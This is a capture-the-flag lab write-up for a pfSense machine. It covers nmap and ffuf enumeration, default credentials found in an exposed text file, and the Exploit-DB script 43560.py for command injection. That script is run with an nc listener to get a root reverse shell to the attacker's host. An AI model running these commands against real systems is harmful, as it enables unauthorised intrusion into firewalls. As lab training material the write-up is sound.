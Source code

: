 

# Connect to the machine 

use openvpn or another vpn to connect to the machine as follows 

```shell
openvpn lab_acountname.ovpn
```

after that try to ping the machine to make sure you are connected 


```shell
ping 10.10.10.60
```

if you get response then we are ready to enumerate


# Recon

 using Nmap with default scripts with default scripts and with services versions

```shell
sudo nmap -sV -sC 10.10.10.60

->
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 03:22 EDT
Nmap scan report for 10.10.10.60
Host is up (0.046s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.25 seconds

```


to summery this result we have 2 ports open :

1. 80/http
2. 443/https


**Versions**

lighttpd 1.4.35

# Enumeration 

## check for version vulnarability

```shell
searchsploit lighttpd 1.4.35      

->
Exploits: No Results
Shellcodes: No Results
```

nothing here 

## checking the website main page

when we visit the website like we get redirected to `https://10.10.10.60/index.php` which includes a login form

![sense_login](../screenshots/sense_login.png)


searching for default credentials for pf sense leads us to:

Username  :  `admin`

Password  :  `pfsense`


but we get username or password is incorrect.


## Directory Fuzzing

Tried Fuzzing Directories with 

```shell
ffuf -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt  -u https://10.10.10.60/FUZZ  -ic 
```

but hadnt found usefull files , so i decided to Fuzz for Files with php,txt,zip,sh (to save tome just search for txt files) using

```shell
ffuf -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt  -u https://10.10.10.60/FUZZ -e .txt -ic
```

and found 2 Files :
1. changelog.txt

```shell
 curl -k https://10.10.10.60/changelog.txt    

->
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window  
```
	we used -k to not check for cerificate validation for https
which tells us that there is a vulnerability in the website


2. system-users.txt

```shell
curl -k https://10.10.10.60/system-users.txt 


->
####Support ticket###

Please create the following user


username: Rohit
password: company defaults 

```

which gives us the login credentials , i tried Rohit:company defaults but didnt work , so i used rohit:pfsense which logged us to the website.

![dashboard](../screenshots/sense_dashboard.png)

we have the name pfsense and its version 2.1.3 , lets check for a vulnarability with searchsploit :

```shell
searchsploit pfsense 2.1.3

->
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

## exploiting pfsense 2.1.3

looking which options the script takes:

```shell
python /usr/share/exploitdb/exploits/php/webapps/43560.py --help

->
usage: 43560.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT] [--username USERNAME]
                [--password PASSWORD]

options:
  -h, --help           show this help message and exit
  --rhost RHOST        Remote Host
  --lhost LHOST        Local Host listener
  --lport LPORT        Local Port listener
  --username USERNAME  pfsense Username
  --password PASSWORD  pfsense Password

```

then we start a nc listener on port 4444

```shell
nc -lvnp 4444 
```

then passing the arguments and running the script

```shell

python /usr/share/exploitdb/exploits/php/webapps/43560.py --rhost 10.10.10.60 --lhost 10.10.16.2 --lport 4444 --username rohit --password pfsense

->
CSRF token obtained
Running exploit...
Exploit completed

```


and we optained a shell on our nc listener ,checking whoai gives us root, now we can find the flags using 

```shell
find /root /home -name "*.txt" 2>/dev/null

->
/root/root.txt
/home/rohit/user.txt

```

gaining the flags with 

```shell
cat /home/rohit/user.txt
cat /root/root.txt


```



# Lesson


- use -k with curl if you have a self-signed certificate and you want to ignore validation
- spend your time searching before going so deep in the enumeration

